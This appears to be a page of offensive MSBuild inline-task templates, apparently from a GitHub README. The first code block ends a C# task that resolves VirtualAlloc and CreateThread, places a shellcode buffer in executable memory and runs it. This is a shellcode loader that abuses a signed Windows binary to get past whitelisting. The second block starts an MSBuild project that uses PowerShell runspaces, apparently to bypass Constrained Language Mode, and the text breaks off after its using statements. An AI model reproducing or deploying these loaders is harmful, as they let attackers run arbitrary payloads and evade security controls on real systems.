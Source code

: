 ```
                    var hKernel = LoadLibrary("kernel32.dll");
                    var hVa = GetProcAddress(hKernel, "VirtualAlloc");
                    var hCt = GetProcAddress(hKernel, "CreateThread");

                    var va = Marshal.GetDelegateForFunctionPointer<AllocateVirtualMemory>(hVa);
                    var ct = Marshal.GetDelegateForFunctionPointer<CreateThread>(hCt);

                    var hMemory = va(IntPtr.Zero, (uint)shellcode.Length, 0x00001000 | 0x00002000, 0x40);
                    Marshal.Copy(shellcode, 0, hMemory, shellcode.Length);

                    var t = ct(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero);
                    WaitForSingleObject(t, 0xFFFFFFFF);

                    return true;
                }

            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    
            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

            [DllImport("kernel32")]
            private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr AllocateVirtualMemory(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

#### Example PowerShell clm
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
```